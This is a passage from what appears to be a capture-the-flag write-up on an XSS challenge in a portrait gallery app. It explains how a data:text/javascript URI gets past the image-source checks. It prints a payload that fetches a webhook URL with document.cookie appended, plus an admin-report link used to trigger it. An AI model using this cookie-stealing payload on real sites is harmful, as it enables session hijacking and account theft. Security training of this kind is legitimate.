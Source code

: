 ```
                    });

                    cardBody.append(title);
                    card.append(img).append(cardBody);
                    col.append(card);
                    $("#portraitsContainer").append(col);
```

So our link (portrait.source) and title are added as an attribute, but portrait.name is rendered as text in title (exploit b4 it was patched). So the only thing we can really attack is portrait.source... however, if the img throws an error, it will try to get the image link directly, but if not, it replaces it with its own custom image link. We don't want that... so what can we do??

Well if we just do `data:text...` as the img src, it successfully passes these checks, and we can use this as `data:text/javascript,alert(1)` see that javascript is executed!

![image](./res/xss.png)

Ok, let's now adjust this payload to `data:text/javascript,fetch('YOUR-WEBHOOK-SITE.com'+document.cookie)` and place it into portrait src. 

Report your gallery to admin using the link: `http://52.188.82.43:8070/gallery?username=YOUR_USERNAME` And... we successfully get the flag!
